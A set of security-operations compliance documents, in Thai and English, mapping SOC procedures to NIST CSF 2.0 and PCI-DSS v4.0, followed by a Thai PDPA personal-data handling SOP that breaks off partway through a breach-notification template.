NIST Cybersecurity Framework (CSF) 2.0 เผยแพร่กุมภาพันธ์ 2024 จัดกิจกรรมด้านความมั่นคงปลอดภัยเป็น **6 ฟังก์ชัน** และ **22 หมวด** เอกสารนี้แสดงว่า SOP ของ SOC สอดคล้องกับแต่ละฟังก์ชัน




> **SOC ครอบคลุม 16/22 หมวด** (เต็มหรือบางส่วน) — 6 หมวดที่เหลืออยู่นอกขอบเขต SOC

---

## 2. GOVERN (กำกับ)

| หมวด | คำอธิบาย | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| GV.RR | บทบาทและความรับผิดชอบ | ✅ | [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) |
| GV.PO | นโยบาย | ✅ | [นโยบายการเข้าถึง](../06_Operations_Management/Access_Control.th.md) |
| GV.OV | การกำกับดูแล | ✅ | [ประเมินวุฒิภาวะ SOC](../06_Operations_Management/SOC_Maturity_Assessment.th.md) |

## 3. IDENTIFY (ระบุ)

| หมวด | คำอธิบาย | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| ID.RA | การประเมินความเสี่ยง | ✅ | [SOC Maturity Assessment](../06_Operations_Management/SOC_Maturity_Assessment.th.md) |
| ID.IM | การปรับปรุง | ✅ | [บทเรียน](../05_Incident_Response/Lessons_Learned_Template.th.md) |

## 4. PROTECT (ป้องกัน)

| หมวด | คำอธิบาย | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| PR.AA | การจัดการตัวตนและสิทธิ์ | ✅ | [นโยบายการเข้าถึง](../06_Operations_Management/Access_Control.th.md) |
| PR.AT | การฝึกอบรม | ✅ | [Training Checklist](../10_Training_Onboarding/Training_Checklist.th.md) |
| PR.IR | ความทนทานของโครงสร้าง | ✅ | [แผน DR/BCP](../05_Incident_Response/Disaster_Recovery_BCP.th.md) |

## 5. DETECT (ตรวจจับ) ⭐

> **ฟังก์ชันหลักของ SOC** — ครอบคลุมสมบูรณ์

| หมวด | คำอธิบาย | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| DE.CM | เฝ้าระวังต่อเนื่อง | ✅ | [เฝ้าระวังเครือข่าย](../06_Operations_Management/Network_Security_Monitoring.th.md), [เฝ้าระวัง Cloud](../06_Operations_Management/Cloud_Security_Monitoring.th.md) |
| DE.AE | วิเคราะห์เหตุการณ์ | ✅ | [ปรับจูน Alert](../06_Operations_Management/Alert_Tuning.th.md), [36 Sigma Rules](../08_Detection_Engineering/README.md) |
| DE.DP | กระบวนการตรวจจับ | ✅ | [Tier 1](../05_Incident_Response/Runbooks/Tier1_Runbook.th.md)/[2](../05_Incident_Response/Runbooks/Tier2_Runbook.th.md)/[3 Runbooks](../05_Incident_Response/Runbooks/Tier3_Runbook.th.md) |

## 6. RESPOND (ตอบสนอง) ⭐

> **ภารกิจหลัก SOC** — ครอบคลุมมากที่สุด

| หมวด | คำอธิบาย | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| RS.MA | จัดการเหตุการณ์ | ✅ | [กรอบ IR](../05_Incident_Response/Framework.th.md), [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) |
| RS.AN | วิเคราะห์เหตุการณ์ | ✅ | [การสืบสวน Forensic](../05_Incident_Response/Forensic_Investigation.th.md) |
| RS.CO | สื่อสารเหตุการณ์ | ✅ | [ตาราง Escalation](../05_Incident_Response/Escalation_Matrix.th.md) |
| RS.RP | รายงานเหตุการณ์ | ✅ | [แบบรายงานเหตุการณ์](../11_Reporting_Templates/incident_report.en.md) |
| RS.MI | บรรเทาเหตุการณ์ | ✅ | [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) |

## 7. RECOVER (กู้คืน)

| หมวด | คำอธิบาย | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| RC.RP | วางแผนกู้คืน | ✅ | [แผน DR/BCP](../05_Incident_Response/Disaster_Recovery_BCP.th.md) |
| RC.CO | สื่อสารการกู้คืน | ✅ | [ตาราง Escalation](../05_Incident_Response/Escalation_Matrix.th.md) |
| RC.IM | ปรับปรุงการกู้คืน | ✅ | [บทเรียน](../05_Incident_Response/Lessons_Learned_Template.th.md) |

---

## 8. สรุปความครอบคลุม

| ฟังก์ชัน | หมวด | SOC ครอบคลุม | จุดแข็ง |
|:---|:---:|:---:|:---|
| **กำกับ** | 6 | 3 เต็ม + 3 บางส่วน | โครงสร้างทีม นโยบาย |
| **ระบุ** | 3 | 2 เต็ม + 1 บางส่วน | ประเมินความเสี่ยง |
| **ป้องกัน** | 5 | 3 เต็ม + 2 บางส่วน | IAM ฝึกอบรม DR/BCP |
| **ตรวจจับ** | 3 | 3 เต็ม | Monitoring, Sigma, Runbooks |
| **ตอบสนอง** | 5 | 5 เต็ม | IR framework, 50 playbooks |
| **กู้คืน** | 3 | 3 เต็ม | DR/BCP, บทเรียน |
| **รวม** | **22** | **16 เต็ม + 6 บางส่วน** | |

---

## เอกสารที่เกี่ยวข้อง
- [ISO 27001 แมปการควบคุม](ISO27001_Controls_Mapping.th.md)
- [PCI-DSS ข้อกำหนด SOC](PCI_DSS_SOC_Requirements.th.md)
- [Compliance Mapping](Compliance_Mapping.th.md)
- [Compliance Gap Analysis](Compliance_Gap_Analysis.th.md)


---

## File: 07_Compliance_Privacy/PCI_DSS_SOC_Requirements.en.md

# PCI-DSS v4.0 — SOC Requirements Checklist

> Map SOC operational requirements to PCI-DSS v4.0 controls.
>
> Use this document for audit preparation and gap identification.

---

## 1. Overview

PCI-DSS v4.0 (effective March 2024) defines security requirements for organizations handling payment card data. SOC teams play a critical role in meeting **monitoring, detection, and response** requirements.

### SOC-Relevant Requirements



> SOC operations directly address **Requirements 10, 11, 12.10** and contribute to **Requirements 1, 2, 5, 6, 7**.

---

## 2. Requirement 10 — Log and Monitor All Access

**SOC Role**: Primary owner of log management and monitoring.

| Sub-Req | Control | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| 10.1 | Processes and mechanisms for logging and monitoring | ✅ | [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md) |
| 10.2 | Audit logs capture required events | ✅ | [Log Source Onboarding](../06_Operations_Management/Log_Source_Onboarding.en.md) |
| 10.3 | Audit logs are protected from destruction | 🟡 | [Log Clearing PB](../05_Incident_Response/Playbooks/Log_Clearing.en.md) |
| 10.4 | Audit logs are reviewed for anomalies | ✅ | [Alert Tuning](../06_Operations_Management/Alert_Tuning.en.md), [Detection Rules](../08_Detection_Engineering/README.md) |
| 10.5 | Audit log history is retained | 🟡 | [Data Handling Protocol](../06_Operations_Management/Data_Handling_Protocol.en.md) |
| 10.6 | Time-synchronization technology | 🟡 | [Log Source Matrix](../06_Operations_Management/Log_Source_Matrix.en.md) |
| 10.7 | Failures of critical security controls detected & reported | ✅ | [SOC Checklists](../06_Operations_Management/SOC_Checklists.en.md), [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md) |

---

## 3. Requirement 11 — Test Security Regularly

**SOC Role**: Detection validation and vulnerability scanning.

| Sub-Req | Control | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| 11.1 | Processes for regular security testing | ✅ | [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.en.md) |
| 11.2 | Wireless access points managed | ⬜ | Not SOC scope (network team) |
| 11.3 | Vulnerabilities identified and addressed | ✅ | [Vulnerability Management](../06_Operations_Management/Vulnerability_Management.en.md) |
| 11.4 | External/internal penetration testing | 🟡 | [Purple Team Exercise](../09_Simulation_Testing/Purple_Team_Exercise.en.md) |
| 11.5 | Network intrusions/changes detected and responded to | ✅ | [Network Security Monitoring](../06_Operations_Management/Network_Security_Monitoring.en.md), [IDS/IPS Sigma Rules](../08_Detection_Engineering/README.md) |
| 11.6 | Unauthorized changes to payment pages detected | 🟡 | [Web Attack PB](../05_Incident_Response/Playbooks/Web_Attack.en.md) |

---

## 4. Requirement 12.10 — Incident Response

**SOC Role**: Primary owner of incident response.

| Sub-Req | Control | SOC Coverage | SOC Document |
|:---:|:---|:---:|:---|
| 12.10.1 | Incident response plan exists | ✅ | [IR Framework](../05_Incident_Response/Framework.en.md) |
| 12.10.2 | Plan is reviewed and tested annually | ✅ | [Purple Team Exercise](../09_Simulation_Testing/Purple_Team_Exercise.en.md), [Phishing Simulation](../09_Simulation_Testing/Phishing_Simulation.en.md) |
| 12.10.3 | Specific personnel available 24/7 | ✅ | [SOC Team Structure](../06_Operations_Management/SOC_Team_Structure.en.md), [Shift Handoff](../06_Operations_Management/Shift_Handoff.en.md) |
| 12.10.4 | Personnel are properly trained | ✅ | [Training Checklist](../10_Training_Onboarding/Training_Checklist.en.md), [Analyst Onboarding](../10_Training_Onboarding/Analyst_Onboarding_Path.en.md) |
| 12.10.4.1 | Frequency of IR training defined | ✅ | [Training Checklist](../10_Training_Onboarding/Training_Checklist.en.md) |
| 12.10.5 | Alerts from security monitoring trigger response | ✅ | [Escalation Matrix](../05_Incident_Response/Escalation_Matrix.en.md), [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) |
| 12.10.6 | IR plan is modified based on lessons learned | ✅ | [Lessons Learned Template](../05_Incident_Response/Lessons_Learned_Template.en.md) |
| 12.10.7 | IR procedures in place for critical alerts | ✅ | [Severity Matrix](../05_Incident_Response/Severity_Matrix.en.md); P1 playbooks |

---

## 5. SOC Contributions to Other Requirements

| Req | Title | SOC Contribution | Document |
|:---:|:---|:---|:---|
| **1** | Network Security Controls | Monitor firewall & IDS alerts | [Network Security Monitoring](../06_Operations_Management/Network_Security_Monitoring.en.md) |
| **2** | Secure Configurations | Detect misconfigurations via monitoring | [Cloud Security Monitoring](../06_Operations_Management/Cloud_Security_Monitoring.en.md) |
| **5** | Anti-Malware | Monitor endpoint protection alerts | [Malware PB](../05_Incident_Response/Playbooks/Malware_Infection.en.md), [Ransomware PB](../05_Incident_Response/Playbooks/Ransomware.en.md) |
| **6** | Secure Systems & Software | Monitor for exploitation attempts | [Exploit PB](../05_Incident_Response/Playbooks/Exploit.en.md), [Zero-Day PB](../05_Incident_Response/Playbooks/Zero_Day_Exploit.en.md) |
| **7** | Restrict Access | Monitor access control violations | [Access Control](../06_Operations_Management/Access_Control.en.md), [Privilege Escalation PB](../05_Incident_Response/Playbooks/Privilege_Escalation.en.md) |

---

## 6. Audit Preparation Checklist

Use this checklist before a PCI-DSS audit:

- [ ] **Log retention** — Verify 12 months of logs available (3 months immediately accessible)
- [ ] **Monitoring coverage** — Confirm all CDE (Cardholder Data Environment) systems in Log Source Matrix
- [ ] **Alert response** — Document SLA compliance for P1/P2 alerts
- [ ] **IR testing** — Provide evidence of annual Purple Team exercise or tabletop
- [ ] **Training records** — Show analyst training completion dates
- [ ] **Change detection** — Demonstrate file integrity monitoring on payment pages
- [ ] **Vulnerability scans** — Show quarterly internal/external scan results
- [ ] **Incident log** — Provide ticketing system export with resolution times

---

## 7. Key Differences: PCI-DSS v3.2.1 → v4.0

| Area | v3.2.1 | v4.0 (New) | SOC Impact |
|:---|:---|:---|:---|
| **Log review** | Daily manual review | Automated monitoring + targeted risk analysis | Increase SIEM automation |
| **Detection** | IDS/IPS required | + Network behavioral analysis | Add network anomaly detection |
| **IR testing** | Annual test | Annual test + scenario-specific exercises | Add Purple Team exercises |
| **Authentication** | MFA for remote access | MFA for all CDE access | Monitor for MFA bypass |
| **Customized approach** | N/A | Organizations can customize controls | Document alternative approaches |

---

## Related Documents
- [Compliance Mapping](Compliance_Mapping.en.md)
- [Compliance Gap Analysis](Compliance_Gap_Analysis.en.md)
- [ISO 27001 Controls Mapping](ISO27001_Controls_Mapping.en.md)
- [PDPA Compliance](PDPA_Compliance.en.md)


---

## File: 07_Compliance_Privacy/PCI_DSS_SOC_Requirements.th.md

# PCI-DSS v4.0 — ข้อกำหนด SOC

> แมปความรับผิดชอบ SOC กับข้อกำหนด PCI-DSS v4.0
>
> ใช้สำหรับเตรียมตัว Audit และระบุช่องว่าง

---

## 1. ภาพรวม

PCI-DSS v4.0 (มีผลมีนาคม 2024) กำหนดข้อกำหนดด้านความปลอดภัยสำหรับองค์กรที่จัดการข้อมูลบัตรชำระเงิน SOC มีบทบาทสำคัญในข้อกำหนดด้าน **การเฝ้าระวัง การตรวจจับ และการตอบสนอง**



---

## 2. ข้อกำหนด 10 — บันทึก Log และเฝ้าระวังการเข้าถึงทั้งหมด

| Sub-Req | การควบคุม | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| 10.1 | กระบวนการ Log และเฝ้าระวัง | ✅ | [ตารางแหล่ง Log](../06_Operations_Management/Log_Source_Matrix.th.md) |
| 10.2 | Audit log เก็บเหตุการณ์ที่กำหนด | ✅ | [คู่มือ Onboard Log](../06_Operations_Management/Log_Source_Onboarding.th.md) |
| 10.4 | ตรวจสอบ Audit log หาความผิดปกติ | ✅ | [การปรับจูน Alert](../06_Operations_Management/Alert_Tuning.th.md) |
| 10.7 | ตรวจจับความล้มเหลวของระบบ Security | ✅ | [รายการตรวจสอบ](../06_Operations_Management/SOC_Checklists.th.md) |

## 3. ข้อกำหนด 11 — ทดสอบความปลอดภัยสม่ำเสมอ

| Sub-Req | การควบคุม | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| 11.1 | กระบวนการทดสอบความปลอดภัย | ✅ | [Simulation Guide](../09_Simulation_Testing/Simulation_Guide.th.md) |
| 11.3 | จัดการช่องโหว่ | ✅ | [การจัดการช่องโหว่](../06_Operations_Management/Vulnerability_Management.th.md) |
| 11.5 | ตรวจจับการบุกรุกเครือข่าย | ✅ | [เฝ้าระวังเครือข่าย](../06_Operations_Management/Network_Security_Monitoring.th.md) |

## 4. ข้อกำหนด 12.10 — การตอบสนองต่อเหตุการณ์

| Sub-Req | การควบคุม | ครอบคลุม | เอกสาร SOC |
|:---:|:---|:---:|:---|
| 12.10.1 | มีแผน IR | ✅ | [กรอบ IR](../05_Incident_Response/Framework.th.md) |
| 12.10.2 | ทดสอบแผนประจำปี | ✅ | [Purple Team Exercise](../09_Simulation_Testing/Purple_Team_Exercise.th.md) |
| 12.10.3 | บุคลากรพร้อม 24/7 | ✅ | [โครงสร้างทีม SOC](../06_Operations_Management/SOC_Team_Structure.th.md) |
| 12.10.4 | บุคลากรได้รับการฝึก | ✅ | [Training Checklist](../10_Training_Onboarding/Training_Checklist.th.md) |
| 12.10.5 | Alert กระตุ้นการตอบสนอง | ✅ | [ตารางการส่งต่อ](../05_Incident_Response/Escalation_Matrix.th.md), [50 Playbooks](../05_Incident_Response/Playbooks/Phishing.en.md) |
| 12.10.6 | ปรับปรุงแผนจากบทเรียน | ✅ | [บทเรียน](../05_Incident_Response/Lessons_Learned_Template.th.md) |

---

## 5. Checklist เตรียม Audit

- [ ] **เก็บ Log** — ยืนยัน 12 เดือน (3 เดือนเข้าถึงได้ทันที)
- [ ] **ครอบคลุมเฝ้าระวัง** — ยืนยันระบบ CDE ทั้งหมดอยู่ใน Log Source Matrix
- [ ] **ตอบสนอง Alert** — แสดงผล SLA สำหรับ P1/P2
- [ ] **ทดสอบ IR** — หลักฐาน Purple Team Exercise ประจำปี
- [ ] **บันทึกฝึกอบรม** — แสดงวันฝึกจบของ Analyst
- [ ] **สแกนช่องโหว่** — ผลสแกนรายไตรมาส

---

## เอกสารที่เกี่ยวข้อง
- [Compliance Mapping](Compliance_Mapping.th.md)
- [ISO 27001 Controls Mapping](ISO27001_Controls_Mapping.th.md)
- [PDPA Compliance](PDPA_Compliance.th.md)


---

## File: 07_Compliance_Privacy/PDPA_Compliance.en.md

# PDPA Compliance SOP

This document outlines SOC procedures for handling personal data in compliance with Thailand's **Personal Data Protection Act (PDPA) B.E. 2562 (2019)**.

---

## Overview

The PDPA governs the collection, use, and disclosure of personal data. SOC analysts frequently encounter personal data (PII) during investigations. This SOP ensures data handling meets legal requirements.

## Data Classification

| Category | Examples | Handling |
|:---|:---|:---|
| **General PII** | Name, email, phone, IP address, employee ID | Log access, minimize retention |
| **Sensitive PII** | National ID, health records, biometrics, religion | Encrypt, restrict access, audit trail |
| **Non-PII** | System logs without user identifiers, hash values | Standard handling |

## SOC Analyst Responsibilities

1. **Minimization** — Access only the personal data necessary for investigation
2. **Purpose limitation** — Use data only for security incident response
3. **Retention** — Delete PII from investigation notes after case closure (retain only in official case file)
4. **Access control** — Share PII only with authorized personnel on need-to-know basis
5. **Logging** — All access to PII must be logged in case management system

## Breach Notification Requirements

| Condition | Timeline | Notify |
|:---|:---|:---|
| Personal data breach detected | **≤ 72 hours** | Data Protection Officer (DPO) → PDPC |
| Breach likely to affect data subjects | Without undue delay | Affected individuals |
| High-risk breach (sensitive data) | Immediately | DPO → PDPC → Affected individuals |

## Incident Response Integration



## Data Subject Rights

SOC analysts must be aware of the following rights that data subjects may exercise:

| Right | SOC Impact | Action |
|:---|:---|:---|
| **Right of Access** | Data subject may request copies of their PII | Forward request to DPO, do not fulfill directly |
| **Right to Erasure** | Data subject may request deletion | DPO evaluates; SOC retains if required for active case |
| **Right to Rectification** | Data subject may request correction | Forward to DPO |
| **Right to Object** | Data subject may object to processing | DPO evaluates; security purposes may override |
| **Right to Data Portability** | Data subject may request export | Forward to DPO |

## DPO Coordination

| Scenario | SOC Action | DPO Action | Timeline |
|:---|:---|:---|:---|
| PII found in investigation | Log access, classify data | Informed for oversight | Immediately |
| Suspected data breach | Escalate to DPO | Assess notification obligation | ≤ 72 hours |
| Data subject request received | Forward to DPO | Process and respond | ≤ 30 days |
| Forensic evidence contains PII | Apply TLP:RED, restrict access | Approve retention | Before analysis |

## Evidence Handling with PII

1. **Minimize** — Redact PII from investigation notes when not essential
2. **Encrypt** — Store evidence containing PII in encrypted storage only
3. **Label** — Mark all documents containing PII with `TLP:RED` or `TLP:AMBER`
4. **Audit Trail** — Log all access to evidence containing PII
5. **Retention** — Delete PII from investigation workspace after case closure
6. **Transfer** — Never transfer PII via unencrypted channels (no plain email)

## PDPA Compliance Audit Checklist

| Item | Frequency | Owner | Status |
|:---|:---|:---|:---:|
| PII access logging enabled in all SOC tools | Monthly | SOC Engineer | ☐ |
| Data classification labels applied to cases | Every case | Analyst | ☐ |
| Breach notification SOP tested | Quarterly | SOC Manager | ☐ |
| DPO contact information current | Monthly | SOC Manager | ☐ |
| Evidence retention policy compliance | Quarterly | SOC Lead | ☐ |
| Data subject request handling procedure tested | Annually | DPO + SOC | ☐ |
| PDPA training completed by all SOC staff | Annually | HR + SOC Manager | ☐ |


## PDPA Penalties & Consequences

| Violation | Penalty | Notes |
|:---|:---|:---|
| Failing to notify breach within 72 hours | ≤ 5 million THB fine | Per incident |
| Collecting data without consent | ≤ 5 million THB fine | Administrative penalty |
| Unauthorized disclosure of personal data | ≤ 5 million THB fine + criminal | Up to 1 year imprisonment |
| Failing to appoint DPO (when required) | ≤ 3 million THB fine | Organizations >50 employees |
| Cross-border transfer without safeguards | ≤ 5 million THB fine | Adequate protection required |

> ⚠️ **Criminal penalties** apply to individuals who disclose data obtained in their role for personal gain — **up to 1 year imprisonment and/or 1 million THB fine**.

## Cross-Border Data Transfer

SOC operations may require sharing IOCs, forensic evidence, or threat intelligence with international partners. Under PDPA Section 28:

| Scenario | Allowed? | Requirements |
|:---|:---|:---|
| Sharing IOCs (hashed, no PII) with foreign CERT | ✅ Yes | No PII involved — standard process |
| Sending forensic evidence to foreign vendor | ⚠️ Conditional | Adequate protection + DPO approval |
| Cloud SIEM storing logs internationally | ⚠️ Conditional | Data processing agreement (DPA) required |
| Sharing PII with law enforcement (INTERPOL) | ✅ Yes | Legal obligation exception applies |
| Sending employee data to foreign SOC team | ❌ Restricted | Explicit consent + adequate protection |

### Required Safeguards for Cross-Border Transfer
```
□ Data Processing Agreement (DPA) with receiving party
□ Receiving country has adequate data protection laws
   (or: Standard Contractual Clauses in place)
□ DPO has reviewed and approved the transfer
□ Data is encrypted in transit and at rest
□ Audit log of what data was transferred, when, to whom
□ Retention and deletion schedule agreed with recipient
```

## Practical Breach Scenarios for SOC

| # | Scenario | Classification | Action |
|:---|:---|:---|:---|
| 1 | Phishing email leads to credential theft → attacker accesses HR database | **Personal data breach** — sensitive PII | ≤72h DPO notification + individual notification |
| 2 | Ransomware encrypts file server containing employee records | **Personal data breach** — availability impact | ≤72h DPO notification (even if data not exfiltrated) |
| 3 | Analyst accidentally shares investigation report with PII on Slack | **Internal disclosure incident** — policy violation | Report to SOC Manager, DPO assessment, awareness training |
| 4 | Malware exfiltrates customer database to attacker C2 | **High-risk breach** — mass PII exposure | **Immediate** DPO + PDPC + individual notification |
| 5 | USB drive with forensic evidence containing PII is lost | **Physical breach** — potential PII exposure | ≤72h DPO notification, assess encryption status |
| 6 | Third-party SaaS vendor suffers breach affecting our data | **Third-party breach** — our data involved | DPO coordinates with vendor, assess impact |

## 72-Hour Breach Notification Workflow



### PDPC Notification Template
```
To: Personal Data Protection Committee (PDPC)
Subject: Data Breach Notification — [Organization Name]
Date: [YYYY-MM-DD]

1. Organization Details
   Name: [Organization]
   DPO: [Name, Email, Phone]

2. Breach Details
   Date Detected: [YYYY-MM-DD HH:MM]
   Nature of Breach: [Confidentiality/Integrity/Availability]
   Description: [Brief description]

3. Data Affected
   Categories: [Name, Email, ID number, etc.]
   Number of Records: [Approximate count]
   Number of Data Subjects: [Approximate count]

4. Containment Status
   [ ] Contained  [ ] Under Investigation  [ ] Not Yet Contained

5. Actions Taken
